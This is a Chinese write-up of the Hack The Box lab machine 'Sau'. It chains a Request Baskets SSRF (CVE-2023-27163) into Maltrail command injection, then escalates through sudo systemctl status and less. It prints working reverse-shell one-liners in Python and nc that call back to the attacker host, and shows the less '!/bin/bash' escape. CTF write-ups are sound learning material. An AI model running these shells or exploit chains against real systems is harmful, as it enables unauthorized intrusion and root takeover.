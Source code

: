 # HTB-Sau

评级为easy，这个赛季打的第一个盒子。回顾来看确实很easy，但是在reverse shell的时候卡了很久。sh反向shell不行的时候就换一下其他的语言的反向shell。

![image-20230731154651741](images/image-20230731154651741.png)

拿到ip后nmap扫一下：

```shell
nmap -sS -p- -Pn --open --min-hostgroup 1024 --min-parallelism 1024 -T4
 -v 10.10.11.224
```

- -sS SYN半连接扫描
- -p- 扫描所有端口
- -Pn 默认主机在线 
- --min-hostgroup 1024 同时扫描1024个ip（这里可以不要）
- --min-parallelism 1024 1024个端口同时扫描
- -T4 控制nmap扫描速度为4
- -v 输出详细程度
- --open 只显示开放端口

结果如下：

![image-20230731155302536](images/image-20230731155302536.png)

开了22和55555端口，再用nmap扫一下55555端口：

```shell
nmap -sV -p 5555 10.10.11.224
```

![image-20230731155623679](images/image-20230731155623679.png)

curl一下看看：

![image-20230731155727259](images/image-20230731155727259.png)

存在http服务，但是我是通过ssh连接内网的另一台kali，kali上连的htb网络，我的本机没有连上htb的vpn，所以无法直接访问。这里用rinetd做个端口转发：

![image-20230731155934874](images/image-20230731155934874.png)

意思为允许所有请求本机（kali）55555端口的IP转发到10.10.11.224的55555端口。

本机可以成功访问：

![image-20230731160013038](images/image-20230731160013038.png)

浏览器打开：

![image-20230731160520011](images/image-20230731160520011.png)

点击Create创建一个请求篮子，并且给你一个url，别人如果访问了这个url，控制器会有记录。就是类似于dnslog的一个功能。

![image-20230731160901315](images/image-20230731160901315.png)

Google查一下Requset Baskets，存在SSRF漏洞**[CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)**。

修改一下设置：

![image-20230731161508655](images/image-20230731161508655.png)

再访问一下生成的请求篮子链接：

![image-20230731161541593](images/image-20230731161541593.png)

这里通过ssrf访问的是http协议的默认80端口（因为我在setting中并没有指定端口），但是nmap扫描中它并没有开放，估计是有防火墙设置了端口不对外开放。我随便试了一下，成功了还挺意外的。

这里很多资源都没有加载出来，burp抓包看一下丢了哪些包：

![image-20230731161953183](images/image-20230731161953183.png)

因为是通过篮子设置的链接，所以我们只要在创建篮子处创建相同与请求url的地址即可。像这样：

![image-20230731162211490](images/image-20230731162211490.png)

记得勾选上扩展Path。可以看到js资源成功访问。

![image-20230731162317645](images/image-20230731162317645.png)

成功访问js后会新增很多其他的请求，这里我就不一一的去设置了，记得如果想要完整的显示页面记得在burp的filter中勾选上images和css，burp默认是不抓这些包的。

![image-20230731162436222](images/image-20230731162436222.png)

这里我们只要知道这个服务是叫Maltrail即可（左下角）。还是Google查一下公开的漏洞：https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/。

![image-20230731162718396](images/image-20230731162718396.png)

我们的payload写在\`\`中。通过Post请求发送到Login页面。设置一下篮子，使其指向本地的login页面。

> 写着写着发现网页未响应了....md，htb的vpn又断了...

burp抓包Post poc。kali通过python在8000端口创建一个http server。

![image-20230731163834751](images/image-20230731163834751.png)

![image-20230731163924196](images/image-20230731163924196.png)

**RCE验证成功**，构造反向shell payload。(/bin/bash >& /dev/tcp/ip/port 0>&1是不行的，base64后也不行，试了很多种，只有python的这一种可用)。这里除了反向shell还有其他的方法，比如向~/.ssh/authorized_keys中写你的公钥等。

```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.12",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
#使用的简短版
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.24",8888));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```

> ```
> nc 10.10.16.12 7777 | /bin/bash | nc 10.10.16.12 8888 #其他的wp用的这个
> ```
>
> ![image-20230731172045492](images/image-20230731172045492.png)

kali通过pwncat监听反向shell。

![image-20230731164756397](images/image-20230731164756397.png)

Post payload，pwncat会自动升级shell。

![image-20230731165056905](images/image-20230731165056905.png)

拿到userflag：

![image-20230731170028289](images/image-20230731170028289.png)

Sudo -l发现可以免密码执行systemctl status：

![image-20230731170122585](images/image-20230731170122585.png)

小tip，systemctl status会调用less(不知道没关系，通过pspy可以看到)，通过less可以直接提权。https://gtfobins.github.io/gtfobins/less/

```shell
#less下
!/bin/bash
```

![image-20230731170527031](images/image-20230731170527031.png)



**总结：** 难点在于会被固定的反向shell限制住思维，在使用payload之前验证一下漏洞是否存在十分重要，这样你就能知道是你的payload错了而不是用错了漏洞。